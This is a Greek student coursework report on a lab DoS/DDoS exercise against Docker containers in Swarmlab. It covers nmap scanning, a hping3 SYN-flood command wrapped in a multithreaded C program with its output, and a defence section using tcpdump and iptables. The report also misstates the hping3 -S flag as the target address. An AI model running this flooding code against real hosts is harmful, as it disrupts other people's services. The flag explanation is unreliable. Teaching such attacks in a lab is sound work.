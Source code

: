 = Ασφάλεια Δικτύων και Επικοινωνιών

== Εισαγωγή

Η τελική εργασία που επιλέχθηκε έχει ως στόχο την επίθεση τύπου DoS/DDoS (Distributed Denial-of-Service). Αρχικά δημιουργούμε ένα σύστημα σε μια εικονική μηχανή στον υπολογιστή μας και στη συνέχεια, πάντα με τη βοήθεια του Swarmlab κάνουμε την επίθεση μας. Τέλος δείχνουμε πως μπορούμε να αποτρέψουμε την επίθεση αυτή με τη χρήση των iptables.

== Swarmlab

Το Swarmlab είναι ένα εργαλείο ανοικτού κώδικα που στόχο έχει να μας εφοδιάσει με εργαλεία για να πειραματιστούμε σε διάφορα σενάρια μέσα σε εικονικές μηχανές. Η επίθεση που παρουσιάζεται βασίζεται σε αυτό. Έχοντας ακολουθήσει τις οδηγίες εγκατάστασης του Swarmlab εκκινούμε την εφαρμογή με την εντολή *sudo swarmlab-hybrid/start.sh* και στη συνέχεια μέσα από τη σελίδα που τρέχουμε στο localhost πάμε στο Labroom και επιλέγουμε το Linux, βάζοντας τον αριθμό των εικονικών υπολογιστών που θέλουμε να δημιουργήσουμε. Μετά, όταν σηκωθούν τα μηχανάκια με την εντολή *docker exec -it -udocker xxx /bin/bash* (όπου xxx το όνομα του μηχανήματός μας) συνδεόμαστε στα terminals της επιλογής μας.

== Εντολές και εργαλεία επίθεσης

=== ifconfig

Για να φτάσουμε στο σημείο να κάνουμε μια επίθεση DoS/DDoS Attack, σημαίνει πρώτα πως έχουμε κάποια στοιχεία για το θύμα μας. Για παράδειγμα αρχικά χρειαζόμαστε την IP του συστήματος του. Για να βρούμε την *IP* θα πληκτρολογήσουμε στο σύστημα που θέλουμε να επιτεθούμε την εντολή *ifconfig*.
[source,console]
----
~ $ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:13:00:02  
          inet addr:172.19.0.2  Bcast:172.19.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:87 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:10492 (10.2 KiB)  TX bytes:0 (0.0 B)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:3183 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3183 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:277901 (271.3 KiB)  TX bytes:277901 (271.3 KiB)
----

Όπως βλέπουμε το *inet addr* στο *eth0* είναι το *172.19.0.2*, το οποίο είναι και η βασική πληροφορία που παίρνουμε τρέχοντας την εντολή αυτή.

=== nmap

Στη συνέχεια θα χρησιμοποιήσουμε ένα εργαλείο ανοικτού κώδικα που χρησιμοποιείται για σάρωση δικτύων και ανακάλυψη ευπαθειών. Το εργαλείο αυτό ονομάζεται *nmap* και το όνομά του προέρχεται από τις λέξεις network και mapper, διότι η ιδιότητα του είναι όντως να χαρτογραφεί ένα δίκτυο. Έχοντας πλέον ως δεδομένο πως το δίκτυο που μας ενδιαφέρει να κάνουμε επίθεση έχει την διεύθυνση *172.19.0.2* θα γράψουμε την εντολή *nmap -p- 172.19.0.pass:[*]* και έτσι θα πραγματοποιήσουμε σάρωση όλων των πορτών της διεύθυνσης 172.19.0.2 ώστε να ανακαλύψουμε ποιες πόρτες είναι ανοικτές. Πριν τρέξουμε την εντολή αξίζει να αναφερθεί πως με την εντολή *nmap -sP* λέμε στο nmap να μην σκανάρει τα Ports αφού ανακαλύψει κάποιον host.
[source,console]
----
~ $ nmap -p- 172.19.0.*
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-31 23:54 UTC
Nmap scan report for 172.19.0.1 (172.19.0.1)
Host is up (0.00020s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE
3000/tcp  open  ppp
3080/tcp  open  stm_pproc
3088/tcp  open  xdtp
5000/tcp  open  upnp
41565/tcp open  unknown

Nmap scan report for fd289df0c38e (172.19.0.2)
Host is up (0.00024s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
3001/tcp open  nessus

Nmap scan report for readmongo_service.poc-datacollector_datacollector-net (172.19.0.3)
Host is up (0.00022s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
40185/tcp open  unknown

Nmap done: 256 IP addresses (3 hosts up) scanned in 9.14 seconds
----
Διάφοροι τρόποι σάρωσης των port με την χρήση του nmap είναι:
[circles]
* nmap –p 30 172.19.0.2 (Σαρώνει την πόρτα 30 της διεύθυνσης 172.19.0.2)
* nmap –p 30-90 172.19.0.2 (Σαρώνει τις πόρτες από 30 ως 90 της διεύθυνσης 172.19.0.2)
* nmap –p- 172.19.0.2 (Σαρώνει όλες τις πόρτες της διεύθυνσης 172.19.0.2)

Όταν τρέξαμε την παραπάνω εντολή είδαμε πως το port *3001* είναι ανοικτό για την διεύθυνση *172.19.0.2*

=== hping3

Το *hping3* είναι ένα ακόμα εργαλείο που θα χρησιμοποιήσουμε για την επίτευξη του στόχου μας. Πιο συγκεκριμένα αυτό το εργαλείο έχει την ικανότητα να στέλνει προσαρμοσμένα πακέτα TCP/IP και να εμφανίζει τις απαντήσεις του θύματος. Στην περίπτωση της επίθεσης μας θα στέλνουμε στο θύμα ασταμάτητα πακέτα με σκοπό να ρίξουμε το δίκτυό του. Για να το κάνουμε αυτό θα γράψουμε ένα προγραμματάκι σε γλώσσα C και το βασικό κομμάτι του θα είναι η εντολή *sudo hping3 -S 172.19.0.2 -p 3001*. Πριν όμως συνεχίσουμε ας δούμε τι κάνουν οι παράμετροι *-S* και *-p*. Αρχικά με την παράμετρο *-S* δηλώνουμε την διεύθυνση του στόχου μας, ενώ με την παράμετρο *-p* δηλώνουμε το port που στοχεύουμε.

== Dos/DDoS Attack

Έχοντας συλλέξει όλα μας τα δεδομένα και τα εργαλεία για να εκτελέσουμε την επίθεση, κάποιος θα έλεγε πως είμαστε έτοιμοι για την επίθεση μας. Αυτό όμως δεν πρόκειται να γίνει αν δεν αναφερθούμε πιο αναλυτικά στο τι ακριβώς θέλουμε να κάνουμε. Τι ακριβώς είναι το DDoS Attack; Πως πραγματοποιούνται οι επιθέσεις DDoS;

Το DDoS Attack ή αλλιώς μια επίθεση κατανεμημένης άρνησης υπηρεσίας είναι μια κακόβουλη προσπάθεια διακοπής της κανονικής κίνησης ενός στοχευμένου διακομιστή, υπηρεσίας ή δικτύου υπερβάλλοντας τον στόχο ή την περιβάλλουσα υποδομή του με μια πλημμύρα κίνησης στο Διαδίκτυο. Οι επιθέσεις DDoS επιτυγχάνουν αποτελεσματικότητα χρησιμοποιώντας πολλαπλά παραβιασμένα συστήματα υπολογιστών ως πηγές κίνησης επιθέσεων. Οι μηχανές εκμετάλλευσης μπορούν να περιλαμβάνουν υπολογιστές και άλλους δικτυακούς πόρους, όπως συσκευές IoT. Από υψηλό επίπεδο, μια επίθεση DDoS είναι σαν μια απροσδόκητη κυκλοφοριακή συμφόρηση που φράζει τον αυτοκινητόδρομο, εμποδίζοντας την τακτική κυκλοφορία να φτάσει στον προορισμό της.

Οι επιθέσεις DDoS πραγματοποιούνται με δίκτυα μηχανημάτων συνδεδεμένων στο Διαδίκτυο. Αυτά τα δίκτυα αποτελούνται από υπολογιστές και άλλες συσκευές (όπως συσκευές IoT) οι οποίες έχουν μολυνθεί με κακόβουλο λογισμικό, επιτρέποντάς τους να ελέγχονται εξ αποστάσεως από έναν εισβολέα. Αυτές οι μεμονωμένες συσκευές αναφέρονται ως bot (ή ζόμπι) και μια ομάδα από αυτές ονομάζεται botnet. Μόλις δημιουργηθεί ένα botnet, ο εισβολέας μπορεί να κατευθύνει μια επίθεση στέλνοντας απομακρυσμένες οδηγίες σε κάθε bot. Όταν ο διακομιστής ή το δίκτυο ενός θύματος στοχεύεται από το botnet, κάθε bot στέλνει αιτήματα στη διεύθυνση IP του προορισμού, προκαλώντας πιθανώς υπερφόρτωση του διακομιστή ή του δικτύου, με αποτέλεσμα την άρνηση παροχής υπηρεσιών στην κανονική κυκλοφορία. Επειδή κάθε bot είναι μια νόμιμη συσκευή Διαδικτύου, ο διαχωρισμός της κίνησης από την επίθεση με την κανονική κυκλοφορία είναι δύσκολος.

Στην περίπτωση μας, που προφανώς δεν έχουμε ένα botnet στην διάθεση μας, αντί για bot θα χρησιμοποιήσουμε πυρήνες του επεξεργαστή. Ο κάθε πυρήνας θα χρησιμοποιήσει την εντολή του εργαλείου *hping3* που είδαμε παραπάνω και έτσι θα πραγματοποιήσουμε την επίθεσή μας. Για να γίνει αυτό θα χρησιμοποιήσουμε ένα προγραμματάκι το οποίο είναι γραμμένο σε γλώσσα C. Αξίζει εδώ να σημειωθεί πως η γλώσσα C είναι κατάλληλη για μια τέτοια επίθεση, σε αντίθεση με άλλες γλώσσες όπως η Python και η Java λόγω της ασύγκριτης ταχύτητας της. Χωρίς περισσότερα λόγια ας περάσουμε στο πρόγραμμα!

[source,c]
----
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <pthread.h>

void *ddos(void *arg)
{
	system("sudo hping3 -S 172.19.0.2 -p 3001");
	return NULL;
}

int main(int argc, char*argv[])
{
	if (argc<2)
	{
		printf("Please input number of threads.\n");
		return 1;
	}
	int l = atoi(argv[1]),i;
	pthread_t *p_thread;
	p_thread = (pthread_t *)malloc(sizeof(pthread_t) * l);
	for (i=0; i<l; i++)
	{
		pthread_create(&p_thread[i] ,NULL, ddos, (void *) NULL);
	}
	for (i=0; i<l; i++)
	{
		pthread_join(p_thread[i],NULL);
	}
	free(p_thread);
	pthread_exit(NULL);
}
----

Όταν γράψουμε τον κώδικα μας στο αρχείο με όνομα DDOS.c θα χρειαστεί να τον κάνουμε compile, για το compile του θα τρέξουμε την εντολή *gcc DDOS.c -o DDOS -lpthread*. Αξίζει να αναφερθεί ο λόγος ύπαρξης της παραμέτρου *-lpthread* την οποία χρησιμοποιούμε επειδή χρειαζόμαστε τα threads.

Για να τρέξουμε το πρόγραμμα μας θα χρησιμοποιήσουμε την εντολή *./DDOS* και μετά τον αριθμό των threads (bots) που θέλουμε να αναπαράγουμε. Τυπικά αναφέρεται πως ένας μεγάλος αριθμός (πχ. 1000) θα κολλούσε το μηχάνημα μας και θα χρειαζόταν επανεκκίνηση. Αυτό φυσικά έχει να κάνει με την δύναμη του υπολογιστή μας, και σε συνέχεια την δύναμη που έχουμε δώσει στο virtual machine μας. Τώρα θα τρέξουμε την εντολή *./DDOS 10* και θα δούμε παρακάτω τα αποτελέσματα.

[source,console]
----
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
HPING 172.19.0.2 (br-72749b960542 172.19.0.2): S set, 40 headers + 0 data bytes
len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=5.1 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=5.3 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=5.3 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=5.4 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=5.4 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=5.4 ms
len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=2.8 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=3.2 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=3.3 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=0 win=64240 rtt=17.0 ms
...
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=7 win=64240 rtt=37.9 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=7 win=64240 rtt=37.7 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=7 win=64240 rtt=23.1 ms
DUP! len=44 ip=172.19.0.2 ttl=64 DF id=0 sport=3001 flags=SA seq=7 win=64240 rtt=8.1 ms
^C
--- 172.19.0.2 hping statistic ---

--- 172.19.0.2 hping statistic ---

--- 172.19.0.2 hping statistic ---
8 packets transmitted, 75 packets received, -837% packet loss

--- 172.19.0.2 hping statistic ---

--- 172.19.0.2 hping statistic ---
8 packets transmitted, 75 packets received, -837% packet loss
round-trip min/avg/max = 1.7/15.1/37.8 ms

--- 172.19.0.2 hping statistic ---

--- 172.19.0.2 hping statistic ---

--- 172.19.0.2 hping statistic ---

--- 172.19.0.2 hping statistic ---
8 packets transmitted, 74 packets received, -825% packet loss
8 packets transmitted, 75 packets received, -837% packet loss
round-trip min/avg/max = 1.5/15.1/37.7 ms
8 packets transmitted, 75 packets received, -837% packet loss
round-trip min/avg/max = 1.4/15.0/37.7 ms

--- 172.19.0.2 hping statistic ---
8 packets transmitted, 75 packets received, -837% packet loss
8 packets transmitted, 69 packets received, -762% packet loss
round-trip min/avg/max = 0.0/8.3/22.8 ms
8 packets transmitted, 75 packets received, -837% packet loss
round-trip min/avg/max = 1.7/14.9/37.9 ms
round-trip min/avg/max = 1.4/15.2/37.7 ms
round-trip min/avg/max = 0.0/8.2/22.9 ms
round-trip min/avg/max = 0.0/9.6/23.1 ms
8 packets transmitted, 75 packets received, -837% packet loss
8 packets transmitted, 66 packets received, -725% packet loss
round-trip min/avg/max = 0.0/4.0/35.0 ms
round-trip min/avg/max = 2.0/15.3/40.0 ms
----

Αν και η επίθεση μας δεν έριξε το δίκτυο του θύματος μας (θα χρειαζόντουσαν *πολλά* παραπάνω bots που η εικονική μηχανή δεν αντέχει να προσομοιώσει), σίγουρα το *ενόχλησε* κατά τη διάρκειά της. Παρόλα αυτά *το θύμα μας δεν είναι ανυπεράσπιστο*. Υπάρχει τρόπος να αμυνθεί και θα το δούμε παρακάτω.

== Εντολές και εργαλεία άμυνας

=== tcpdump

Το *tcpdump* είναι ένα πολύ χρήσιμο εργαλείο που στόχος του είναι να αναλύει πακέτα που μεταδίδονται ή λαμβάνονται στο δίκτυο που είναι συνδεδεμένος ο υπολογιστής. Αυτό αποτελεί και ένα εξαιρετικά αμυντικό εργαλείο καθώς αν ο χρήστης το τρέξει από την γραμμή εντολών καθώς βρίσκεται υπό επίθεση θα βρει τη διεύθυνση του θύτη. Στην περίπτωση μας το θύμα θα τρέξει την εντολή *tcpdump dst 172.19.0.2* και θα βρει την IP που του κάνει την επίθεση, ας θεωρήσουμε πως αυτή είναι η IP με διεύθυνση *78.33.42.8*. Πριν προχωρήσουμε όμως ας δώσουμε μερικά παραδείγματα χρήσης της εντολής tcpdump:

[circles]
* tcpdump host 1.2.3.4 (Εύρεση κίνησης μέσω διεύθυνσης IP)
* tcpdump src 1.2.3.4 (Εύρεση κίνησης με πηγή διεύθυνση IP)
* tcpdump dst 1.2.3.4 (Εύρεση κίνησης με προορισμό διεύθυνση IP)
* tcpdump port 3001 (Εύρεση κίνησης σε συγκεκριμένο port)

=== iptables

Το *iptables* είναι ένα εργαλείο για τη δημιουργία και τη συντήρηση των IP packet filter rules στο Linux kernel. Το iptables χρησιμοποιεί διευθύνσεις τύπου IPv4, ενώ το ip6tables χρησιμοποιεί διευθύνσεις τύπου IPv6. Με την χρήση λοιπόν του iptables ο επιτιθέμενος, κοινώς το θύμα μας :), μπορεί να σταματήσει την τρέχουσα επίθεση και οποιαδήποτε άλλη μελλοντική επίθεση δεχτεί από την IP που μόλις ανακάλυψε πως του επιτέθηκε, δηλαδή την *78.33.42.8*, κάνοντας την πολύ απλή, αλλά πολύ δυνατή εντολή *sudo iptables -I INPUT -s 78.33.42.8 -j DROP*. Με αυτό λοιπόν τον τρόπο ο πλέον αμυνόμενος απέκλεισε την κυκλοφορία που εισερχόταν στο δίκτυο του από την συγκεκριμένη IP. Αναλύοντας λίγο την εντολή βλέπουμε τις παραμέτρους *-I* που σημαίνει εισαγωγή κανόνων σε μια θέση στην αλυσίδα, την *-s* που σημαίνει πως θα εισαχθεί διεύθυνσης (είτε IP είτε όνομα δικτύου) και τέλος την *-j* που καθορίζει τον στόχο του κανόνα, εφόσον τώρα είναι DROP σημαίνει απόρριψη. Έστω όμως λοιπόν πως στην συνέχεια ο αμυνόμενος μαθαίνει πως την επίθεση την έκανε ένας φίλος του, πως αναιρεί την άμυνα του; Αυτό θα το κάνει με την εντολή *sudo iptables -D INPUT -s 78.33.42.8 -j DROP* όπου η παράμετρος *-D* σημαίνει delete, έτσι λοιπόν διαγράφει αυτό τον κανόνα φίλτρου που είχε θέσει, και μπορεί ξανά να ανταλλάζει αρχεία peer-to-peer με τον φίλο του. Ο οποίος όταν προσπαθούσε να επικοινωνήσει μαζί του, όσο το φίλτρο τον έκοβε εκτός, έβλεπε το μήνυμα Hostname is unreachable στον υπολογιστή του.